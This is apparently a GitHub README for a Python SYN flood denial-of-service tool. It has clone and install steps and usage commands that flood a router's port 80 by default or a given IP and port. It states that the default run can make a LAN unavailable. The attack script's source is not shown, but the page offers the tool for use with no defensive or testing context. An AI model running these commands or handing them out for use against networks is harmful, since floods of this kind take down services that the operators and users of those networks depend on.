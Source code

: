 # SYN Flood

This Python script is designed to perform a SYN Flood attack, which is a type of Denial-of-Service (DoS) attack that involves sending numerous SYN packets to a specified target IP address and port.

### install

```bash
git clone https://github.com/savasick/synflood.git
cd synflood
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

### usage

send to router-IP 80-port (Can disrupt LAN network and make it unavailable)
```bash
sudo python3 synflood.py
```

send to 192.168.5.110-IP 443-port
```bash
sudo python synflood.py 192.168.5.110 443
```
